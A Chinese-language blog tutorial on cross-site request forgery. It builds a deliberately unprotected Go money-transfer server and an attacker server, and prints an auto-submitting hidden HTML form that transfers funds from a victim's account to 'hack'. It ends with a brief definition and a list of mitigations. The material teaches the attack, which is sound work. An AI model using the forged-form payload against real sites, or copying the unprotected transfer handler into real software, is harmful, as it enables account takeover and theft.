 ```yaml
---
title: "Web Safe Csrf"
date: 2021-09-16T22:43:44+08:00
---
```


## 概 述

随着互联网的高速发展，信息安全问题已经成为企业最为关注的焦点之一，而前端又是引发企业安全问题的高危据点。在移动互联网时代，前端人员除了传统的 `XSS`、`CSRF` 等安全问题之外，又时常遭遇网络劫持、非法调用 `API` 等新型安全问题。当然，浏览器自身也在不断在进化和发展，不断引入 `CSP`、`Same-Site Cookies` 等新技术来增强安全性，但是仍存在很多潜在的威胁，这需要我们技术人员不断对系统进行“查漏补缺”。


## 废话少说，先看问题

为了模拟问题我这边用`go`写了`2`个服务端的代码，正常交易系统的API，当然这里只是为了`演示漏洞利用`，代码比较简单如下:

**transaction.go 内容:**

```go
package main

import (
    "errors"
    "fmt"
    "github.com/spf13/cast"
    "log"
    "net/http"
)

// 模拟数据存储
type user struct {
    id    string
    money int
}

var userdata []*user

func init() {
    userdata = append(userdata, &user{id: "Tom", money: 10000})
    userdata = append(userdata, &user{id: "John", money: 10000})
    userdata = append(userdata, &user{id: "hack", money: 0})
}

// 模拟交易系统API
func main() {
    http.HandleFunc("/transaction", transactionHandler)
    http.ListenAndServe(":1999", nil)
}

// 假设这是交易处理器
func transactionHandler(w http.ResponseWriter, req *http.Request) {
    if req.URL.Path != "/transaction" {
          http.Error(w, "404 not found.", http.StatusNotFound)
          return
    }
    switch req.Method {
    case "GET":
          http.ServeFile(w, req, "form.html")
    case "POST":
      if err := req.ParseForm(); err != nil {
          fmt.Fprintf(w, "ParseForm() err: %v", err)
          return
      }
      if e := transaction(req.FormValue("Id"), req.FormValue("toId"), req.FormValue("money")); e != nil {
          fmt.Fprintf(w,"%s",e.Error())
          return
      }
      fmt.Fprintf(w,"transaction successful.")
    default:
      fmt.Fprintf(w, "Sorry, only GET and POST methods are supported.")
    }
}

func transaction(Id, toId, money string) error {

	if len(Id) <= 0 || len(toId) <= 0 || cast.ToInt(money) <= 0 {
      return errors.New("form invalid parameter")
	}
	var user, recipient *user
	for _, u := range userdata {
      if u.id == Id {
          user = u
          break
      }
	}
	for _, r := range userdata {
      if r.id == toId {
          recipient = r
          break
      }
	}
	// 用户不存在
	if user == nil || recipient == nil {
      return errors.New("user does not exist")
	}
	// 有钱才能转账
	if user.money < 0 || user.money < cast.ToInt(money) {
      return errors.New("your balance is insufficient")
	}
	user.money = user.money - cast.ToInt(money)
	recipient.money = recipient.money + cast.ToInt(money)
	log.Printf("用户 %s 向用户 %s 转账 %s 元.", Id, toId, money)
	return nil
}

```

我们把上面的代码跑起来，`go run transaction.go`

```
[Running] go run "/Users/ding/Desktop/CSRF_Demo/transaction.go"
2021/03/12 21:50:08 Transaction Server Running....
```
好了，服务器正常跑起来了，按照我们正常的系统流程是，我们登陆到了系统里面，系统里面有我们的浏览器会话数据，这时我们只想通过系统给出的交易接口操作就可以了，这里为了方便演示我使用`postman`进行测试。

![操作截图](https://tva1.sinaimg.cn/large/008eGmZEgy1gohgs1l2eij30qi0huabj.jpg)

可以看到我们的交易系统设计的所需的参数，并且我们填写了请求表单数据，并且提交了这个请求。我们去服务器看看日志:

```
[Running] go run "/Users/ding/Desktop/CSRF_Demo/transaction.go"
2021/03/12 21:50:08 Transaction Server Running....
2021/03/12 21:54:41 用户 Tom 向用户 John 转账 2000 元.
```
可以看到有一条转账记录，说明我们操作成功了。


## 开始漏洞利用

按照正常人的思维我们就正常操作就行了，但是世界这么大怎么可能没有坏人呢？？？那下面把第一个服务器跑起来，并且访问第二个服务器看看结果怎么样？？

**csrf.go文件里面内容:**

```go
package main

import (
    "log"
    "net/http"
)

func main(){
    http.HandleFunc("/csrf",csrfHandler)
    log.Println("CSRF Server Running....")
    http.ListenAndServe(":2021", nil)
}

func csrfHandler(writer http.ResponseWriter, request *http.Request) {
    http.ServeFile(writer, request, "csrf.html")
}
```

首先我把攻击利用服务器启动 `go run csrf.go`

```go
2021/03/12 22:16:43 CSRF Server Running....
```

然后我在同一浏览器里面访问这个地址`http://127.0.0.1:2021/csrf`。

![攻击利用](https://tva1.sinaimg.cn/large/008eGmZEgy1gohhhxzpwhj30gi02s3yo.jpg)

在你回车的那一秒，其实这个漏洞已经利用成功了。这个过程可能不是你直接在浏览器地址框直接输入，也可能是你在打开其他网站，其他网站里面有一个地址就是这个地址，或者是你在`QQ`或者一些聊天软件上，别人给你发送一个地址，在你点击那一秒这个攻击就成功了。

那怎么证明成功了呢？我们去看看转账系统的日志。。

![日志记录](https://tva1.sinaimg.cn/large/008eGmZEgy1gohhlco3g6j30m704ojs0.jpg)

可以看到有一条转账日志记录，这就是我们刚刚通过漏洞利用达成的转账效果。

## 那这个是怎么做到的呢？

通过我们攻击利用服务器上的代码可以看出来我们在服务器返回了一个`csrf.html`文件，那这个文件做了什么？？？

**文件内容如下:**

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>csrf 攻击演示</title>
</head>
<body>
<form action="http://127.0.0.01:1999/transaction" method=POST>
    <input type="hidden" name="Id" value="Tom" />
    <input type="hidden" name="money" value="5000" />
    <input type="hidden" name="toId" value="hack" />
</form>
<script> document.forms[0].submit(); </script>
</body>
</html>
```
相信是个程序员都能看懂我做了什么吧，不用细说。


## CSRF攻击和防范

上面攻击过程就是我们常说的`CSRF`攻击，相比`XSS`，`CSRF`的名气似乎并不是那么大，很多人都认为`CSRF`“`不那么有破坏性`”，真的是这样吗？

`CSRF`攻击的例子已经不是单个个例了，`Gmail，Facebook，Twitter，YouTube`这些都有个类似的漏洞事件。

- https://www.davidairey.com/google-gmail-security-hijack/

> `CSRF（Cross-site request forgery）`跨站请求伪造：攻击者诱导受害者进入第三方网站，在第三方网站中，向被攻击网站发送跨站请求。利用受害者在被攻击网站已经获取的注册凭证，绕过后台的用户验证，达到冒充用户对被攻击的网站执行某项操作的目的。

![CSRF攻击原理图
](https://tva1.sinaimg.cn/large/008eGmZEgy1gohdrs7ja5j30tg0gyta4.jpg)

我刚才的例子就是一个典型的`CSRF`例子，受害者登录`a.com`，并保留了登录凭证`（Cookie）`，攻击者引诱受害者访问了`b.com`，`b.com` 向 `a.com` 发送了一个请求：`a.com/xx`。浏览器会默认携带a`.com`的`Cookie`，`a.com`接收到请求后，对请求进行验证，并确认是受害者的凭证，误以为是受害者自己发送的请求，从而达到黑客的目的。

## 小 结

涉及到铭感数据操作的加强验证，客户端的数据不可信，服务器加强对数据校验，和加一些`风控`策略，例如`验证码，手机短信，jwt`，或者第三方验证码防火墙，也可以在请求的之前先拿到一个唯一的`token`，同源检测（`Origin` 和 `Referer` 验证），当然这些方法还不安全，如果有空会续更。